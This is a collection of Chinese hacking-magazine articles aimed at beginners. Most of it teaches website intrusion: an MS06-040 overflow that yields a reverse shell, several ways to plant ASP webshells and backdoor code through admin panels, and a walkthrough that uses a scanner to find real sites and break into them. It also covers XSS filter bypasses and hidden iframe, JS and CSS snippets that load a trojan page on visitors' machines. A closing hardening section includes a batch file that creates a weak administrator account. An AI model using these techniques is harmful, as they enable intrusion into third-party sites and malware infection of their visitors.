接下来我们就测试一下如何在虚拟机网络里进行漏洞的入侵实验。我们选用的入侵方式当然是远程溢出了，又快又简单。还是以 MS06-040 漏洞为例，需要用到以下三个小工具：

- ms06040rpc.exe
- MS06-040 Netapi32 Scanner（魔波就是利用 ms06040 漏洞的哦）
- NC（瑞士军刀）

再打开一个 CMD 窗口，运行 ms06040rpc.exe，我们会看到该溢出程序的使用格式为“ms06040rpc.exe 要攻击的 IP 地址 本机 IP 地址 反弹的端口 对方操作系统类型”，其中 1 表示 Win2000 SP4 系统，2 表示 WinXP SP1 系统。按照给出的使用格式，我们输入“ms06040rpc.exe 192.168.1.2 192.168.1.1 1234 1”，如图19，然后返回到 NC 监听的那个 CMD 窗口，溢出成功的话，我们就会得到一个 cmdshell 了。一机多用，何乐而不为？以后我们在发现什么新的远程溢出程序的话，就不用担心没有测试环境了，另外我们还可以在……Windows 2000 及 Windows 2003 上设置好 IIS，在安装上什么论坛或文章系统以后，也可以用来测试了。（文章中涉及到的软件 VMware 已经收录在光盘中）

## 从后台拿到 WEBSHELL

网上天天都在公布各个系统的漏洞信息，但很多时候只告诉你怎么进入后台。进入后台后怎么获取 WebShell？这里把一些从后台获取 Shell 的经验做一个简介。

### 一、直接上传 Shell

存在这种问题的后台并不少。文中以“第一秀产品展示程序”为例，说明通过后台上传功能直接上传 ASP 木马获取 Shell 的方法。

- 程序名：第一秀产品展示程序
- 语言：ASP
- 注入点：BoardView.asp
- GOOGLE 关键字：inurl:BoardView.asp?id=

该系统通过注入较容易拿到后台，进入后台后找到服装列表—添加服装，在图片上传处可直接上传 ASP 大马并提交，如图2。

接着在服装列表里找到刚添加的服装，右键图片查看属性，显示的 URL 地址就是 ASP 木马地址，如图3。

不过，类似这种没有上传过滤的系统已经比较少了。资料显示 PHP 系统中这类直接上传漏洞相对更多，读者可自行搜索测试。

### 二、利用上传漏洞拿 Shell

这种方法有时甚至不需要进入后台即可得到 Shell，下文以“零度白鸽影视系统”为例。

- 程序名：零度白鸽影视系统
- 语言：ASP
- GOOGLE 关键字：intitle:...喜欢电影朋友的天堂！
- 上传漏洞文件：admin/upfile.asp

在 GOOGLE 里直接搜索 `inurl:`、`intitle:` 一类关键词，可找到很多系统后台入口。将 URL 中的 `index/Index.asp` 替换成 `admin/upfile.asp`，如果出现“请先选择你要上传的文件！”，则说明漏洞存在（如图4）。随后可用注入工具在上传模块中提交 ASP 木马并上传（如图5）。

进入后台后在样式管理中，可复制旧样式并新建设置；在允许上传图片类型里添加 `asa` 类型（如图6）。

提交后返回预览，点击插入或修改图片图标，会弹出上传对话框，上传 `ASA` 后缀木马并确定（如图7）。再点“代码”可看到木马地址，得到 Shell（如图8）。

找到木马地址后，在 URL 中替换路径即可得到 Shell。例如把 `admin/upfile.asp` 替换为上传后的 `UploadMovieImg/... .asp` 路径。

### 三、修改上传类型

多数后台都有上传功能，通常限制后缀；部分系统可在后台增加允许类型（如 ASP、ASA、PHP 等）。文中以常见 eWebEditor 为例，说明在后台扩展上传后缀并利用上传点进行演示。

若发现站点路径含 `ewebeditor`、`editor` 等字样，可尝试其管理入口，如在 URL 后加 `/admin_login.asp`。默认账号密码常见为 `admin/admin`，也可通过数据库文件路径进一步尝试进入后台。

- 程序名：eWebEditor
- 语言：ASP
- 默认后台：`/admin_login.asp`
- 默认用户/密码：`admin/admin`
- 默认数据库：`/db/ewebeditor.mdb`

### 四、直接写入 Shell

除上传获取 Shell 外，部分后台具备直接编辑文件功能。以 `LeadBBS2.88` 为例，进入后台后点击可编辑脚本页面（如图9），直接写入木马代码（如图10），保存后访问对应 URL 即可。

- 程序名：LeadBBS2.88
- 语言：ASP
- 默认管理员用户、密码：admin

`/manage/SiteManage/SiteEditFileContent.asp` 就是大马了。

`%><%` 木马。为什么是这种格式呢？这是为了配合前面的 ASP 语句，要不然一句话木马就不能当作语句来执行了。然后我们使用客户端连接 `http://网站/admin/rootclass_menu_config.asp`，就会得到我们的一句话木马了！我们以 MY 动力后台为例进行演示。

- 程序名：MY 动力 3.51
- 语言：ASP
- 注入点：Article_print.asp
- GOOGLE 关键字：inurl:Article_print.asp
- Powered by：MyPower

通过注入很容易就可以进入后台，然后在左侧菜单中找到“常规设置”—“网站信息配置”，在版权信息里写入一个很小的木马，如图11。修改前记得要把人家的版权信息先备份一下，最后得到 Shell 后记得恢复版权信息。

### 五、将木马写入配置文件

由于程序员对站长的放心，所以很多后台提交的地方都没有严格的过滤，这样我们就有机可乘了。比如动易 2005 后台，就可以在顶部栏目菜单参数设置中插入一句话 `%><%execute request("s")`。

『版权所有 Copyright? 2003 <a href="http://www.asp163.net">动力空间</a>』！！版权信息

```asp
if Request("shane")="369" then
  dim allen,creat,text,thisline,path
  if Request("creat")="yes" then
    Set fs = CreateObject("Scripting.FileSystemObject")
    Set outfile=fs.CreateTextFile(server.mappath(Request("path")))
    outfile.WriteLine Request("text")
    Response.write "UPFILES OK!"
    end if
  Response.write "<form method='POST' action='"&Request.ServerVariables("URL")&"?shane=369&creat=yes'>"
  Response.write "<textarea name='text'>"&thisline&"</textarea><br>"
  Response.write "<input type='text' name='path' value='"&Request("path")&"'>"
  Response.write "<input name='submit' type='submit' value='ok'></form>"
  Response.end
end if
%
```

保存后把地址栏里的 `Admin_Index.asp` 替换成 `inc/config.asp?shane=369`，看到小马了吧，如图12。点 OK 提交后，把地址里的 `config.asp?shane=369` 替换成保存的文件名就是大马了。

拿到大马了，赶快去主页或和大马同目录下的 `config.asp` 文件，要不人家网站的主页可是打不开的，修改的方法如图13所示。

### 六、利用数据库备份得到 Shell

这也是目前比较常用的一个方法了，可以说这个方法通杀了动网论坛的所有版本，本文我以经典的动网6为例来进行演示。

- 程序名：动网论坛6
- 语言：ASP
- 程序漏洞：大家可以参考以前的黑客X档案

先在前台上传一个 JPG 格式的 ASP 木马，在发表帖子里和头像里都可以上传。在头像上传处直接就可以看到文件的地址，如图14。

然后来到后台的备份数据库板块，把文件的地址填到“当前数据库路径”中，备份数据库名称填木马的名称，注意填 ASP 后缀，点确定后获得路径，再把 URL 补充完整就会得到 Shell 了，如图15。

以上所介绍的这六种方法都是比较常用的，差不多可以对付所有的后台。本文主要是针对初学者，如有不足之处还请高手们点出。

## 让小菜都轻松成为网站的猎手

黑侠（Black Mask）

经常在 X 档案的论坛上看到一些小菜发帖，说要怎么样才能入侵网站并且得到 WebShell。其实方法呀，说难也难，说简单也很简单，主要看各位对于最常见注入漏洞的了解以及注入工具的使用了。提到注入工具，目前国内使用最多的就是啊D、HDSI，另外还有 NBSI 了，不过今天我这个短文想介绍的是另一款非常不错的注入工具——网站猎手2.0。虽然网上也能找到一个3.0版本的网站猎手，不过其功能要比2.0少一些，因此本文我们仍然选择介绍2.0版本。

下面我们以一个购物商城类网站为例，来看如何使用网站猎手进行入侵。首先在关键字栏输入以下内容“您是如何知道本网站的？从门户网站搜索 网络广告或友情链接 熟人介绍 平面媒体 本公司资料或名片 业务交流 广告知”，然后选择“检测漏洞文件”，在右侧的“可利用的页面或文件”中进行选择。我们需要检测的漏洞文件是 `admin/upfile_flash.asp`，这个文件在黑边框里找到，可以选择下边的“插入”按钮，然后输入 `admin/upfile_flash.asp`，确定后就可以了，如图2。

将网站猎手2压缩包解压后，双击运行其中的 `webhunter2.exe`，其主界面就会出来了，如图1。在界面左上方可以看到一个关键字栏，这个关键字就是一些源代码里包含的一些特别的字符，搜索这些关键字就可以找出使用这套源代码的网站。比如想搜索使用动易系统的网站，就可以搜索关键字“Copyright 2003-2004 动易网络”，然后通过网上公布的动易漏洞的利用方法来入侵网站并获取 WebShell。

确定后，我们就会发现 `admin/upfile_flash.asp` 已经被打上了“勾”，记住我们只检测这一个文件，其它的都不用检测，否则检测时间会很长。最后点击关键字栏后的“搜索”按钮，程序就会自动在 GOOGLE 或百度里搜索出包含“以上关键字”的网页。注意，关键字栏下边的“网址”栏，就是我们想使用的搜索引擎，如果我们想使用 Google 的话，就输入 `http://www.google.cn`，如果想使用百度的话，就输入 `http://www.baidu.com`。接着我们点击“获取网址”，再在搜索页面中点击下一页，然后再点“获取网址”，这样就会得到大量的网址了，这样寻找存在漏洞的网站的机会也会大一些，如图3。

如何检测漏洞呢？我们切换到“检测漏洞文件”，点击“载入网址”，在中间的“待检测站点”框中就会列出许多站点的网址了，然后点击右下方的“开始检测”按钮，接下来就是耐心地等待吧，检测的结果会显示在下方的检测结果框中，如图4。

虽然搜索出了不少，不过也别高兴得太早了，这里面还不知道能有几个可以利用呢？我们接着挨个测试一下吧。在检测结果中选中要测试的网站，然后点击网址栏后边的“访问”，或者在选中的网址上点鼠标右键，然后在弹出的小菜单中选择“访问”。如果弹出了如图5所示的对话框，就说明这个页面是存在的，但是否有漏洞，还要进一步的测试。

我们仍然在检测结果中选中那个网站，点击鼠标右键，然后在弹出的小菜单中选择“上传”，就会自动打开“上传工具”界面了。“后门文件”栏我们可以随便填写一个，不过一定要是 ASP 扩展名的，我填的是 `flash.asp`。再选中“购物商城类”。在 ASP 文件代码框里已经有了一个默认的小马，不过这个默认的小马很容易被查杀，我们最好更换一个不易被查杀的小马（注：小马就是 ASP 代码比较少的网马）。为什么一定要上传小马呢？这是因为上传的代码太大的话，很容易失败。点击下方的“从外部导入文件”来导入一个我们自己的小马，其它选项使用默认即可，最后我们点“提交”，如图6。

不过，令人遗憾的是上传失败了，在返回结果中也可以看到“写入文件失败”的提示，这说明该网站有可能已经修补了漏洞。我们重新返回到检测结果，换一个网站再试试，右击上传，选中购物商城类，导入小马，最后再提交，如图7。

这一回上传成功了，在返回信息中也可以看到“文件上传成功”的提示。我们打开 IE 浏览器，输入刚才上传的网马的网址 `http://www.gzjywz.com/admin/flash.asp`，成功地出现了网马的界面，如图8。接下来就赶紧上传“大马”吧（大马就是代码比较多、功能比较强大的 ASP 木马），在保存文件的绝对路径栏里输入路径 `f:\usr\cwd2277\admin\wo.asp`，然后在下边的框里输入木马的内容，最后选择保存，如图9。

重新在 IE 浏览器打开我们刚才保存的大马的路径 `http://www.gzjywz.com/admin/wo.asp`，输入网马的访问密码后，网马的界面就出现了，如图10。

这个 WebShell 的权限还不小呢，添加、删除之类的操作都可以。就这么简简单单地我们就完成入侵一个网站的目标了。至于如何得到服务器的系统权限，我会在以后的文章里给大家详细介绍。

细心的朋友一定会注意到在“上传工具”项的右边还有一个“动网猎手”，可想而知这个功能就是专门用在动网论坛上的，主要针对 dvbbs version 7.0.0 sp2 漏洞。下面我们同样利用关键字“dvbbs version 7.0.0 sp2”来搜索这个版本的动网论坛（搜索方法和上面的一样），如图11。

搜索到很多动网论坛，先点击获取网址，然后从中选择一个网址进行访问，切换到“动网猎手”，将该网址后边的参数都去掉，只保留论坛地址，输入到“论坛地址”栏；在帐号里随便输入一个，比如 blackmask，密码也可以随便输入，比如 123456，E-mail 可以随便生成。然后点击“注册按钮”，成功的话就会返回注册成功的信息了，如图12。

有一些论坛可能开启了验证码，对于此类情况，我们需要在“使用验证码”前打上“勾”，这时会弹出一个提示框，要求我们访问该网站，得到验证码后再填入验证码的框里。我们点确定后就会自动弹出注册页面，将得到的验证码记下来，填入到“使用验证码”下面的框里，再点击“注册成管理员”就行了。

来看看刚才添加的管理员帐号有没有成功，点“登录论坛”，输入我们刚才添加的帐号和密码，看到“管理”项了吧，如图13。

这说明我们已经有管理员权限了，不过这只是前台管理员，并不是后台管理员，所以我们要通过这个前台管理员去查看一些系统日志，希望能够找到后台管理员的密码来。我们选中数据库设置里的“查 DV_log 记录”，再点击“后台提权信息”按钮，如图14。

成功禁止了记录，有800多个分页呢，我们从最后一个分页开始一个个地往前找，都快找完了也没有看到管理员密码的影子，普通用户的密码倒是有很多。就在我快要放弃的时候，突然眼前一亮，看到一段好东西，如图15。

这不就是数据库的名字吗？看来已经有人来过了，因为这段日志已经明显记录了，那个人通过备份数据库功能将自己伪装成图片的 ASP 木马备份回了 ASP 木马（我试了试那人备份的几个 ASP 木马，一个也打不开，看来都被删除了）。

从数据库名字的更新时间来看，2007-2-16 的 `dvbbs7123.mdb` 是挺有可能的，我赶紧打开迅雷进行下载，还真是这个名字哦，而且数据库还不小呢，有50多M。就等它慢慢下载吧。一会儿就下载完了，打开 `dvbbs7123.mdb` 数据库，再打开 DV_admin 表，发现了几个后台管理员，接着再打开 DV_user 表，查看一下所对应的前台管理员，如图16。从图中我们可以找到前台管理员 shakespear，所对应的后台管理员是 scc，并且是同一个密码。将这个 MD5 密码复制过来到 `www.cmd5.com` 网站上去破解一下吧，运气不错，密码被破解出来了，如图17。

再返回到论坛，重新进行登录，使用用户名 shakespear，密码 886248，登录成功了，随便找一个版块，上传我们的木马吧。由于不能直接上传 ASP 文件，所以事先要将小马的扩展名改成 JPG 或者 GIF。点击上传，上传成功，如图18。

再点“管理”选项，输入用户名 scc，密码 886248，成功进入后台了，点击“备份数据库”，在当前数据库路径里输入 `UploadFile/2008-3/689175555927.gif`（就是前面上传的图片），备份数据库目录就不用填了，数据库名称 `cool3416.asp`，最后点确定，如图19。好了，备份成功了，如图20。

打开 IE 浏览器，访问 coo13416.asp，如图 21，可爱的小马又出来了吧，再来上传大马吧，如图 22，上传成功了，再打开我们的大马看看吧，如图 23。

再一次，轻轻松松地得到了 webshell，现在大家对网站猎手 2.0 的使用已经非常了解了吧，有空的时候，就多多练习一下吧。

如果大家在使用过程中发现了其它更有效的使用方法或是使用技巧的话，也别忘了写出来和菜鸟一起分享哟！

（文中涉及到的网站猎手 2.0 以及 ASP 木马已经收录在了光盘中）

## 跨站挂马全攻略

A1Pass［任晓辉］

现在的黑客攻击中，跨站挂马似乎正在成为攻击的一个主流话题，鉴于这种形势，我就把自己在学习跨站挂马过程中的一点心得总结出来与大家分享。

由于考虑到知识的认知过程以及入门朋友们的基础水平问题，本文将分为“基础知识”“跨站漏洞”与“挂马技巧”三部分。我们先来学习一下基础知识以及跨站攻击的利用方法。

### 一、基础知识

#### 1、什么是 UBB 码

XSS 攻击主要是在两种环境下进行，一种是用户自己构造的标签，构造的标签要严格遵循 HTML 标记语言，而 UBB 码则是 HTML 的一个变种，属于系统提供的标签。UBB 代码简单，功能很少，但由于其 TAG 语法检查实现非常容易，所以许多网站都引用了这种代码以方便广大网友的使用，当然，同时也为我们打开了方便之门。

下面我列出了几个例子，以便大家对 UBB 码有一个感性的认识。显示为粗体效果：`[B]文字[/B]`；显示为斜体效果：`[I]文字[/I]`；显示文字的超链接：`[URL=http://www.hackerxfiles.net/]黑客X档案官方站[/URL]`。通过上面的例子，我们可以看出 UBB 码使用的是中括号标签“[”与“]”。为什么要介绍这些呢？因为关键时候，我们借助 UBB 码也可以达到跨站的效果。

#### 2、什么是 HTML 输入

有条件的读者可以打开 X 档案的网站看看，我们在 IE 浏览器的页面中单击右键，选择“查看源文件(V)”，如图 1，然后就会弹出如图 2 那样一个以首页文件命名的记事本。


我们可以看到里面的代码都是用“<”与“>”括起来的，而这个“<”与“>”分别就是 HTML 的开始与结束标记。例如我们输入`<Script>alert("text")</Script>`就是输入了一段 HTML 码，可以看到这段代码被“<”与“>”分成了两个标签，分别是“<Script>”与“</Script>”，中间的则是这个标签需要解释的内容。

其实基础的跨站应用无非就是几个步骤的问题，要比 SQL 注入简单得多了！在本篇文章中我争取从实用角度出发，让大家从什么都不懂，到能自主实战，但是前提是你必须仔细地阅读过本文才行。


### 二、什么是跨站漏洞

所谓的跨站漏洞，就是在数据库里插入特定恶意代码的一种攻击技术，它被称为“XSS”或“CSS”。为了与层叠式样式表区分开来，现在普遍都叫做 XSS。XSS 为什么会被称作跨站攻击呢？这是因为入侵者通过别人的网站脚本漏洞来达到攻击的效果，也就是说可以隐藏攻击者的身份，因此叫做跨站攻击。

对于受到 XSS 攻击的服务器来说，被插入恶意代码的 WEB 程序会永久地储存这些代码，除非人为删除它们！当有访问这个 WEB 程序下的某个页面时，恶意代码就会混杂在正常的代码中发送给浏览者，从而导致浏览器执行相应代码，进而达到黑客的攻击目的。


主题乐园

### 三、跨站攻击的原理

其实，XSS 攻击的本质还是注入的问题，只不过 XSS 注入的是恶意的 HTML 脚本而已……浏览器在接受数据时，无法辨认哪些是应该解释的代码，哪些是不需要解释的数据……

归根结底，跨站攻击的根本漏洞就在 WEB 程序里……如果 WEB 程序能做更好的过滤，XSS 攻击是完全有可能被避免的。


### 四、跨站攻击的挖掘

知道了 XSS 攻击后，我们怎样才能挖掘出网站的 XSS 漏洞呢？……标准测试代码 `<Script>alert("text")</Script>` 的意义要注意。


其中的 text 可以更改为任何字……`<Script>` 与 `</Script>` 分别是脚本开始和结束的 HTML 标记，alert 是 JavaScript 的信息对话框方法……因此我们可以将 alert 换成任意 JavaScript 代码。

……但是倘若突破了这个限制，又碰到别的限制怎么办呢？今天我就带领大家步步设防，再步步突破！

对于 `<Script>` 与 `</Script>` 的过滤，第一步就是看是否替换大小写……例如 `</img>`，它执行后与 `<Script>alert('text')</Script>` 的结果一致。


如果连 `javascript:` 也被过滤，可将部分字符转换成 ASCII/16 进制实体编码，如 `&#106avascript&#58aler...` 等方式绕过。

```html


```

如果仅过滤掉 `javascript:`，还可使用 VBScript：``。若过滤 `SRC`，还可利用其他等价属性。

```html


```

随着 XSS 攻击频繁发生，程序员开始过滤非常见符号、空格甚至 javascript；但入侵者仍可利用事件属性替换关键字，如 `` 来触发执行。

……不断啊！呵呵，不要着急，对于初学的朋友，你们只要记住其中的“alert(/error-text/)”可以换成其它 JavaScript 代码就可以了。那么知道这些又有什么用呢？你可以将其换成 `` 来实现挂马功能，而且到后期当你懂得一定的脚本知识时，你可以用它做更多的事。

利用事件也能跨站，所以有的人又开始过滤事件，以使我们的 onerror 事件无法执行。但是“山穷水尽疑无路，柳暗花明又一村”，即使你过滤再多的事件，但倘若我们自己构造一个呢？下面这段代码就是我构造的一个叫做“AlPass”的事件，它的执行结果与通过 onerror 来执行 JavaScript 代码的结果是一样的：``，其执行结果如图 6 所示。


我们甚至不需要 SRC 并且脱离“”标签都可以成功进行 XSS 攻击！例如下面这段 XSS 测试代码：`<DIV style="AlPass:expression(alert(/style-text/));">`。值得注意的是，通过 style 构造的事件会执行两次，而且当鼠标移过时也会再次触发 style 事件。除此之外我们还可以利用其它未被过滤的事件，或者利用制表符（Tab 键）来分割被过滤的关键字，另外注释符号“/* */”也可以当作空格来使用。

在你理解这些 XSS 攻击方法的前提下，挖掘这些漏洞就显得比较简单了。我们下面进行一次 XSS 攻击的实验。大家都知道，可以输入信息的地方才有可能构成 XSS 攻击，但是选择一个输入点的好坏直接关系到 XSS 攻击的威力与成功几率。


我们在动网“自定义头像地址：”中输入 XSS 的测试代码 `<script>alert("text")</Script>`，然后点击保存。但是当我们刷新后并没有看到 text 弹出来啊。初看了，这怎么回事？首先我们在返回的页面信息中可以看到完整的 XSS 测试代码，这至少证明没有被过滤。

> **小技巧**：如果我们在某一个页面提交完 XSS 代码，刷新后还能显示出来的结果（例如完整显示 `<script>`），那提交的数据就很可能是这个地方存在 XSS 漏洞，只是还需要进一步绕过过滤。

我们提交的测试代码为什么没有顺利执行呢？这时就需要查看网页的源代码了，我们在 IE 浏览器的页面中单击右键，选择“查看源文件(V)”，就可以看到这个页面的 HTML 源代码了，按 Ctrl+F 快捷键调出查找对话框，输入“alert("text")”后很快就找到了如下的代码：

```html
<a href="#" onclick="openScript('smiley.asp?t=1',650,400)" title="头像预览列表">
  <font color="#FF0000">头像预览</font>
</a>
<td width="180" rowspan="2" valign="top" align="center">
  alert('text')</Script>" width="120" height="120" />
</td>
```

大家可以看到我们的 XSS 测试代码确实没有被过滤，但是却被“”标签的“< >”给包围了，当然也就不能执行了！我们要怎么解决呢？这里给大家一个思路：逆向思考！我们如何才不被包围呢？

新的构造思路是通过拆分原有标签，使其变成多个独立语句，从而让 `<script>alert("text")</Script>` 被解释执行。关于 XSS 攻击其实是没有定律的，就拿我们经过验证的方法来看，除上面的一些办法外，其实还存在更多其它方法。

```html
<a href="javascript:[code]">
<div onmouseover="[code]">

  [IE浏览器]
<input type="image" dynsrc="javascript:[code]"> [IE浏览器]
<bgsound src="javascript:[code]"> [IE浏览器]
&<script>[code]</script>
&{code}; [N4浏览器]

<link rel="stylesheet" href="javascript:[code]">
<iframe src="vbscript:[code]"> [IE浏览器]
 [N4浏览器]
 [N4浏览器]
<div style="behaviour:url(link-to-code)"> [IE浏览器]
<div style="binding:url(link-to-code)"> [Mozilla浏览器]
<div style="width:expression([code]);"> [IE浏览器]
<object classid="clsid:..." codebase="javascript:[code]">
```

### 五、挂马技术

对于挂马，强烈要求大家带着学习的目的去钻研，不要拿出去害自己的同胞。

#### 1．什么是挂马

最近看中央电视台的一个关于电脑黑客的节目，字幕上竟然把“挂马”显示成了“挂码”，估计是对黑客技术不了解所造成的，但这也可以看出大家对于挂马技术的陌生。

其实通过名字就可以知道一二，挂马就是指一种将木马程序“挂”到大多比较信赖的网站上，从而使得浏览此网站的网民电脑被非法植入木马的行为。被挂马的网站访问者往往很难察觉，因此挂马具有隐蔽性好、危害巨大的特点。

#### 2．挂马的原理

关于挂马技术，与 XSS 基本一致，但门槛更低。常见方式包括通过漏洞挂马（如 XSS）和通过已获取权限进行挂马（如 WebShell 批量挂马）。其核心思路是利用注入脚本让目标页面在访问时执行指定内容。


#### 3．挂马实战

挂马与 XSS 一样，都有一个“基本代码”，其核心代码如：`<iframe src=http://www.***/muma.htm width=0 height=0></iframe>`。通过将 iframe 尺寸设置为 0，可在页面中隐藏恶意页面。


目前很多用户已知会搜索 iframe 关键字，因此更隐蔽的方式常改用 JS 挂马。方法是创建 JS 文件并将代码写入 `top.document.body.innerHTML`，再在目标页面通过 `<script src=...></script>` 引入。

```
top.document.body.innerHTML = top.document.body.innerHTML + '\r\n<iframe src=http://www.***/muma.htm width=0 height=0></iframe>';
```


这种方法可绕开直接搜索 iframe 的简单检测。若还需更强隐蔽性，可使用 CSS 挂马：把表达式或嵌入代码写入样式文件，再由目标页面引用样式。

```
Body {
  hytop: expression(op=document.body.innerHTML = top.document.body.innerHTML + '\r\n<iframe src=http://www.***/muma.htm width=0 height=0></iframe>');
}
```

然后在页面中引用 CSS：`<link href="css.css" rel="stylesheet" type="text/css">`。文中还提到将地址写入 SWF 等其它挂马方式。

关于 IcodeToSWF 的使用方法非常简单，我们打开文件后选择需要插马的 SWF 文件，然后输入我们的木马网址点击“给我插”就可以了，如图 11。


最近总是听说网易博客中毒，一听吓我一大跳！网易的 BLOG 还没智能到可以运行病毒的程度吧？最后经过调查才发现原来是 WMA 文件被插了木马！于是乎淘到了一款傻瓜化的 WMA 插马工具，我们只需要输入木马地址与音乐地址保存即可，如图 12。不过这个工具毛病很多，例如 WMA 音乐的网址最好手动输入，不要粘贴，否则会出现问题等。


关于挂马就讲到这里了，结束前再告诉大家一个技巧，关于 HTML 文件远程访问时我们可以将后缀名改为其它的，例如`http://www.***.com/muma.jpg`或`http://www.***.com/muma.abcd`都可以正常执行。除了 HTML 文件，JS 文件也可以这样随意改动后缀名，甚至无后缀名都可以！

到这里文章就全部结束了，本想讲得更加详细一些，涉及得更广一些，但是想到懂而不精的菜鸟们，我只好努力将文章的难度降低，以便于入门朋友的学习。关于本篇文章，人们从来不爱看细节讲述，大概多数只是知其然就可以应用了。为了方便广大读者，我已经将本文涉及到的所有应用代码整理出来，详情请见光盘。（文中涉及到的工具 IcodeToSWF、WMA 音乐插马器以及整理出的代码已经收录在光盘中）

## 个人电脑安全防范全攻略


好久不玩 QQ 了，这天一上 QQ，看到 QQ 邮箱里有好多邮件，其中有一封孤雪 Girl 发过来的 PCSHARE 免杀版，我只不过是点了一下，QQ 一会儿就关了，再次登录 QQ 启用 QQ 医生查毒，竟然有 7 个盗号木马，幸亏是在网吧上网，要不然我可就被这个 girl 给修理了。后来就学着如何预防个人电脑风险，来实现我最大限度的安全，在此特写出来与各位朋友分享（以 Windows XP 专业版为例）。

### 一、Windows 安全第一步——做好权限设置

Windows 在开发过程里遵循的第一条安全原则：验证与授权。自从 WIN2000 开始引入 NTFS 文件系统后，授权的原则对用户来说才更实际了！

#### 1. 进行权限设置的前提

要进行权限设置，首先要保证操作系统为 WIN2000 以上，其次要保证硬盘文件系统为 NTFS，如果文件格式没有转换的话可以在 CMD 命令提示符下使用 convert 命令进行转换。对于 WINXP 用户要将“我的电脑”→“工具”→“文件夹选项”→“查看”选项下“使用简单文件共享（推荐）”前的勾去掉。另外还要注意 WINXP 家庭版不支持 NTFS 文件系统权限设置。

#### 2. 设置系统目录权限

病毒木马入驻系统一般都会存储在系统目录下，打开系统盘，找到 Windows 文件夹，右键选择“属性”，单击“安全”选项，将 system 和 administrators 组以外的所有用户都删除。选择“Administrators”，将其权限设置为“读取”“读取和运行”“列出文件目录”，如图 1；使用相同的方法设置 system32 文件夹的权限。

#### 3. 独立文件权限设置

对系统内的危险程序，比如 net.exe、net1.exe 等进行权限设置，按照上图那样进行设置即可，特别请要注意对 cacls.exe 进行权限设置，因为该程序可以修改文件的访问控制表（ACL），也就是说通过这个程序能够对系统所做的权限进行修改。


## 主题乐园

#### 4．对注册表进行权限设置

对注册表进行权限设置的关键点在于设置哪些键，个人总结如下：

```text
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer
HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer
```

设置原因：网上大多数的 IE 恶意代码攻击都是修改这个项的键值，同时网页木马当前已经成为一个重要的木马传播途径。

操作过程如下：在“开始”——“运行”栏中输入 regedit 打开注册表编辑器，找到上面的键项，点鼠标右键，选择“权限”，如图2，点“高级”，将“从父项继承那些可以应用到子对象的权限项目，包括那些在此明确定义的项目”前面的勾去掉，在弹出的窗口中单击“复制”，确定后返回到“Internet Explorer 的权限”窗口，将“administrators”和“system”以外的用户删除，选择“administrators”用户组，只保留“读取”权限，如图3，下面的设置和该设置一样！


```text
HKEY_CLASSES_ROOT\Drive\shell 和 HKEY_CLASSES_ROOT\Directory\shell
```

设置原因：很多病毒进入系统后会在各驱动器根目录下创建一个 autorun.inf 文件，并在该注册表键中建 v.auto 键值，以达到用户双击打开磁盘运行木马的目的！

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

设置原因：该注册表键中有两个键需要我们注意，一个是 userinit，另一个是 shell。正常为 C:\Windows\system32\userinit.exe 和 Explorer.exe，病毒和木马可以在这里加载启动项，比如将 userinit 键更改为 C:\Windows\system32\userinit.exe,C:\Windows\system32\alqd.exe 等。

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

设置原因：这里可以加载木马启动，这个键也是我们所熟知的，大家可以到网上搜索相关资料，自己进行设置！

```text
HKEY_CLASSES_ROOT\exefile、HKEY_CLASSES_ROOT\batfile、HKEY_CLASSES_ROOT\comfile
```

设置原因：防止木马病毒修改文件关联！

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
```

设置原因：防止映像劫持，所谓映像劫持就是将安全软件或者其它常用软件的运行转向到病毒木马程序的运行！


#### 5．对核心服务进行权限设置

病毒和木马存活后会操作系统的核心服务，因此有必要对系统的某些服务进行权限设置。以 eventlog 为例，运行 process explorer，找到 services.exe 和 svchost.exe，如图4，双击打开 services.exe 进程的属性对话框，选择“服务”，选中 eventlog 服务，单击“权限”，将“administrators”和“system”账户以外的用户删除，将“administrators”组的权限设置为“读取”，如图5。入侵者在入侵计算机后想通过删除日志来消除自己的行踪，没有权限那是没门的！


### 二、Windows 安全第二步——IE 安全

现在的互联网上，网马可是异常的猖獗，由于各种黑客工具的出现使得入侵变成了傻瓜式操作，随便一个菜鸟简单地学学工具的使用，就可以搞到许多 WEBSHELL，兴趣之余一般都会选择挂马，因此如何防范网马就成了一个必须解决的问题。

#### 1．更换浏览器？

IE 浏览器的 ANI 漏洞已经众所周知了，事实上 FIREFOX 2.0 也同样存在各种漏洞，因此更换浏览器的念头还是暂时打消吧，我们要做的就是如何最大限度地保护好 IE 浏览器。

#### 2．常规 IE 安全设置

我们在前边通过权限对注册表中的 IE 项进行了权限设置，现在来看看 IE 中的常规安全限制。在操作前我们先想象一下网马怎么传播的，网马的传播不少还靠 `<iframe src="木马地址"></iframe>` 和 javascript 脚本。根据这点，我们运行 IE，打开“工具”菜单中的“Internet 选项”，单击“安全”，如图6，单击“自定义级别”，找到“脚本”——“JAVA 小程序脚本”和“活动脚本”，分别设置为“禁用”，然后找到“其他”——“跨域浏览子框架”，将其也设置为“禁用”，确定后退出。


图6

但是这样的设置也会影响我们访问站点，很多站点都会采用 javascript 和 iframe 框架。针对这种情况我们可以将自己经常访问的站点添加到“受信任的站点”中，选中“受信任站点”，单击“站点”，将“对该区域中的所有站点要求服务器验证”前面的勾去掉，然后在“将该网站添加到区域中”输入站点网址，如图7，单击“添加”按钮！


图7

#### 3．及时更新 IE 的安全补丁

这是非常有必要的，可以让我们及时修复 IE 浏览器的一些最新漏洞。

#### 4．小技巧运行 IE

很多时候，我们通过 RUNAS 命令使用别的账户来运行 IE 也可以起到防范网马的目的，将如下代码保存为 IE.bat。

```bat
@echo off
net user hacker >nul 2>nul && goto 启动IE || goto 添加用户
:添加用户
net user hacker 123 /add && net localgroup administrators hacker /add >nul 2>nul
:启动服务
sc config seclogon start= auto
net start seclogon
:启动IE
runas /user:hacker "C:\Program Files\Internet Explorer\IEXPLORE.EXE"
```

想运行 IE 浏览器的时候，直接双击运行这个批处理程序，就会以 hacker 账户来运行 IE 浏览器了，我们可以根据需要对上面的批处理进行相应的修改。

### 三、Windows 安全第三步——病从口入防范可移动磁盘病毒

